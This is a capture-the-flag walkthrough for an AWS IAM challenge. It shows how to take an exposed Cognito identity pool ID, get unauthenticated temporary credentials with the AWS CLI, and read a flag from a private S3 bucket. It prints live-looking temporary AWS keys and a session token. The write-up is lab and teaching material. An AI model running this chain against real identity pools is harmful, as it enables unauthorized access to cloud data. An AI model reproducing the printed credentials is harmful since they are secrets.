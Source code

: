 ```yaml
---
tags:
  - IAM
  - Cognito
  - S3
title: The BIG IAM Challenge - Do I Know You
description: Be aware how identity pool generate AWS credentials for the guest access
reference: https://thebigiamchallenge.com/challenge/5
---
```


## Challenge

We configured AWS Cognito as our main identity provider. Let's hope we didn't make any mistakes.

## Solution

### 1. View the provided IAM Policy

```json
{ "Version": "2012-10-17", "Statement": [ { "Sid": "VisualEditor0", "Effect": "Allow", "Action": [ "mobileanalytics:PutEvents", "cognito-sync:*" ], "Resource": "*" }, { "Sid": "VisualEditor1", "Effect": "Allow", "Action": [ "s3:GetObject", "s3:ListBucket" ], "Resource": [ "arn:aws:s3:::wiz-privatefiles", "arn:aws:s3:::wiz-privatefiles/*" ] } ] }
```

### 2. What are AWS Mobile Analytics and AWS Cognito Sync

Amazon Mobile Analytics was a service for collecting, visualizing, understanding, and extracting app usage data at scale.

Amazon Cognito Sync is an AWS service and client library that makes it possible to **sync application-related user data across devices.** Amazon Cognito Sync can synchronize user profile data across mobile devices and the web without using your own backend. The client libraries cache data locally so that your app can read and write data regardless of device connectivity status. When the device is online, you can synchronize data. If you set up push sync, you can notify other devices immediately that an update is available.

### 3. Observing the website elements

The cognito image is **a signed image on S3!**!

![[wiz_iam_ch_5 1.mp4]]

Use browser developer tool to copy the elements:

- the image is stored in S3 bucket `wiz-privatefiles`.
- identity pool id: `us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b`
	- Amazon Cognito identity pools provide temporary AWS credentials for users who are guests (**unauthenticated**) and for users who have been authenticated and received a token. An identity pool is **a store of user identifiers linked to your external identity providers**.

```
<img style="width: 16rem" id="signedImg" class="mx-auto mt-4" src="https://wiz-privatefiles.s3.amazonaws.com/cognito1.png?AWSAccessKeyId=ASIARK7LBOHXORQTFYAG&amp;Expires=1748256168&amp;Signature=4eJdL1fzIAyEq2aV91f4VGphkZo%3D&amp;x-amz-security-token=IQoJb3JpZ2luX2VjEHoaCXVzLWVhc3QtMSJGMEQCIH4qCFaasM9jjHqNxyl6nj7zptApgwRL9MpowMijQajhAiBUFHHevHpTWebY%2FnuOsq%2FJHx4VI9695%2FcFr1WDBqgM%2FSqwBQhDEAAaDDA5MjI5Nzg1MTM3NCIMs9QdMX%2FJxX2whqqZKo0Fzl3mSMIlMzf5ORIxYs9XnEg0wPpdR5eZ2UfqDbaUGKb%2BBV75WbRkfRAtHgaCu4uSbFnxsH3Ze9c1QHORqSPQT4lisRsmwgzqTUccCbs52LVjqjbkTRNF3c4JKJb89mzhI4Jh9zCtJd94Pi9n%2BYrF2Ka4LpNWObbxFm4vEDxfA47MsHmt5MConIp3Vj%2FI9vOL4%2BhSyaCrMjomahv5vhnCgSjPkN8rZNzps%2Boa2Ol6RrDrXti3VpbnXFtiPhBUn8Aoje4zMWltSrQpHwdB3%2FtO3C6nqsYBjZevr%2FWjQvwJANmlE%2FAymtNFv4RTDO7XmhEtdlJ%2BnuldcnZSJTpL9y0JbJLrWUImdGqx24AtLhZ9nqwPV%2BU8yFjMpPbvqip34PXR0wglthsgYD42ZgqKb37MZUvqU1aw4hlpcJ8AN6iK%2BzwxpP%2F%2FuCalz5aoS8dic2fYjyug%2Bxt%2FvOC8bT4Jcre5t%2Bi0HuQIbicWou6fwenBOByKx4XT4AZ8VFGkj6PG3trrZQ2vFtiCW862fUSNmsQRrRRPPqSr9Aju5DaQ2jJ5zpIUoURI2o%2BhKgiGdThylqFFPl%2BId0EGydwpuqoh3ww2VQ58rTnxG%2FjtjZh9m51OTYjBUrQGlo9h8ikXeQpp0iCbFBQPcphKTPwirTftkEwZHd8tVvhWiYl8LdcuPrcAK%2FNYgGIUvDWyTEBfSdfIVBojoP8IK2266cQ7NG1VQp7nBLEV0YcQs4PBImkbeRpkEXKSuo%2Bv1mVfCXaI4mvlHx6Vzgtvj8FedbPOEPk8XlvnwXn3DdYweNG0djNMlsHA4dfpom3TjsBkLbEGeWzCNw5yCLPW9791GewAdHthciQvwqWy2iuc4aRtD%2FJ88KgwmO%2FQwQY63wKLrV%2Fbq8cgVByODYSwkw48bPYNTtRmkSb7P44AbOWkFfTidSZxSBZbYG5v92bTNk8%2BmIci%2FfXGGAdqtOOOBc8HmiegCuetnBrdn9MmIsL9wXECs0N%2FVvxAnEhRbwvWot0UheLzcFR6T6sw4%2FFai5N9yiYyeQjzu%2BkGUcmqx1ZrxbzDKsv0zcVXjR5yIlLOrweBFOIkmAyPWlzlifhpqVs9IpJ1gick%2FebeUaOSiSWETwBEZu7rPNIk6FaWfidN81jAK2OOHimyKKzrgug%2BBRj8p6X5hDvAD5fieEa%2BZu%2Fv%2BLV4mZPUc2lF0yL2SqE6q94OGLY4d7NtxwTTzJHj7zujN%2BHI%2F0ce8tJ6LbT6Bjsxz9KIlUr25lq1piKXHx0xQb47SjTL1%2BCV%2BfYS8xMM0WK86My9mC83MvdF8NUDDdiFfJG8CBULgl9nKMcz67fKATBgAB4dVLlO0InxNZvdLjY%3D" alt="Signed img from S3">
<script src="https://sdk.amazonaws.com/js/aws-sdk-2.719.0.min.js"></script>

  AWS.config.region = 'us-east-1';
  AWS.config.credentials = new AWS.CognitoIdentityCredentials({IdentityPoolId: "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"});
  // Set the region
  AWS.config.update({region: 'us-east-1'});

  $(document).ready(function() {
    var s3 = new AWS.S3();
    params = {
      Bucket: 'wiz-privatefiles',
      Key: 'cognito1.png',
      Expires: 60 * 60
    }

    signedUrl = s3.getSignedUrl('getObject', params, function (err, url) {
      $('#signedImg').attr('src', url);
    });
});
```

### 4. Study the Identity pools authentication flow


![[aws identity pools auth flow.png]]

1. Your application presents a proof of authentication–a JSON web token or a SAML assertion–from an authorized Amazon Cognito user pool or third-party identity provider in a [GetID](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetId.html) request.
2. Your identity pool returns an identity ID.
3. Your application combines the identity ID with the same proof of authentication in a [GetCredentialsForIdentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html) request.
4. Your identity pool returns AWS credentials.
5. Your application signs AWS API requests with the temporary credentials.

Reference: https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html

### 5. Authentication

1. get identity id
```
> aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b

{

    "IdentityId": "us-east-1:157d6171-ee8b-cc0c-c368-7933c4553f14"

}
```

2. get AWS role credentials for the identity id

```
> aws cognito-identity get-credentials-for-identity --identity-id us-east-1:157d6171-ee8b-cc0c-c368-7933c4553f14

{

    "IdentityId": "us-east-1:157d6171-ee8b-cc0c-c368-7933c4553f14",

    "Credentials": {

        "AccessKeyId": "ASIARK7LBOHXDOO5IS6L",

        "SecretKey": "U7OogZZEjv7YjL0KKpJSfLaed7jxLGJYUXidS3rQ",

        "SessionToken": "IQoJb3JpZ2luX2VjEHsaCXVzLWVhc3QtMSJGMEQCICjm+071xwvxZ1CIMdZs9b4AgNDmpbuGbl584+r8M4KEAiAKCI/p1K5jW2o5fp8vcBig

ISJvLLlCFT/9mVK8C1yLTyqxBQhEEAAaDDA5MjI5Nzg1MTM3NCIMFHwSSDWqLwYPrYIEKo4FMbGA5qxxiugh5Uv7nsF+sb9iks3OrXyoDDgT8aF+i1OeQmI7mAncoS5DuLn23

enicKUIs3ICTgk5TjKgP1x8yM4k+IGP0gHoygZdl8BeGTlkj/T0whz3OG8fxvzs4G46J7E5dP/qQfoCRkxVtWLT3NiP7qA+zy0rf1gsEdSRUAFdzzdI9CnwVbHFiXpwdrfJbp

kJjTU77W01z5eZBOeZTQLbmrN80W0FDWAzdu5lNIgaXBJumYWkbHAkPJje3lsPQH3yzzTUO6d/udhd+5SZusGc2MEXJdj/F3RcWBMjWdFo2XGqB6vwO7+eegAKAHWw2WSMpYq

vjVpbfkXWcBU06fktFOBm37lG6w+PlZCdDNsmZ096NkBIzdJZ1h91txwKEb3SeZ0ux5Uv1AgIeWSe2kBP0bFHMX0hqvQhQ2jR6ARWDqJ69tMkp93H109DvE2r+SDJFbRjrEIh

nKe5W04xsjxXL4C14uHHRezzOFxQlze8/deJAlMOSNsOIBwkcU8J2NyriE0TMPApw6J+fUYAn0+dSXD9K0def94DRlQq/7awcZHS1MDPJAwTNWIJW1miGanZWUkjv8JmYBJ/A

+aaj9YFpQBFFKqvpQKsunfre5dY9n6MiMgV+PMN9yEmuK7QKyGzIUxPSdxYh+kJR07gLi9rXGbl1YJF8tQv7SKMVAFerDIqQK2Ny6YoTA6xxqWXkgROpch9NORN5cm+5aY5ew

rCDoY2Z8Lexxcka/AVwEZzAAbdHMKaFHxBJqym9EkPSv7PXMM0lcLztCiNvsUUhCpU7ee7DcstXi7cO9tVQUnSMr8WVkrJ8hJZZbjpnR7OKHr1d2+ydHzP1sqlKt7jWMip2ab

KUFiHUw8qYxpyMImF0cEGOt4Ce4cO5pquAaDdAyxtEwdYVBcKRNloKMEI1RHARhxXXNNJti6fR9COFnSKnlDquNNuf3967EM4UmmSnNXVcPsouQ8PMBapP/Sci8+6VM6uh/HH

KIButcbLkww+uCFzUna5B/1Pk0jNqvuIJpB+ebjSKqiA6mojxLsjePiMSh5egUJly97BUr9P054si+B0RmziFcELOEGuOZeQ0ialBc/5aLEWfzO2Vk7pOBufUnUZy0AsHAJyf

OjRbFACoOEC799J0qFm4SDOGOLF0WDE3Ex58LaCIU0G7KZu0ppLo9ufcgjNPLzGN7iI5JLq1E2WQIYphvAN34wgCEa/JbqEcyshaZlyFlO5JtVedUeeXfsSYuQkXaa5CISk2H

7M3/RJSVYLZdP3aOT8LmTxM0weXJ63EaZr0TMOivInrrxUl2q5GRpKB+tjqparuXHc2K2Lkgj0yGy1jzJ6bZPok2F+UMI=",

        "Expiration": 1748258969.0

    }

}
```

### 6. Configure aws cli credential 

```
tim@tim-virtual-machine ~/.aws [2]> aws sts get-caller-identity
{
    "UserId": "AROARK7LBOHXJKAIRDRIU:CognitoIdentityCredentials",
    "Account": "092297851374",
    "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessUnauth_Role/CognitoIdentityCredentials"
}
```

### 7. Try to access the S3 bucket

```
tim@tim-virtual-machine ~/.aws> aws s3 ls wiz-privatefiles
2023-06-06 03:42:27       4220 cognito1.png
2023-06-05 21:28:35         37 flag1.txt
tim@tim-virtual-machine ~/.aws> aws s3 cp s3://wiz-privatefiles/flag1.txt flag1.txt
download: s3://wiz-privatefiles/flag1.txt to ./flag1.txt
tim@tim-virtual-machine ~/.aws> cat flag1.txt
{wiz:incognito-is-always-suspicious}
```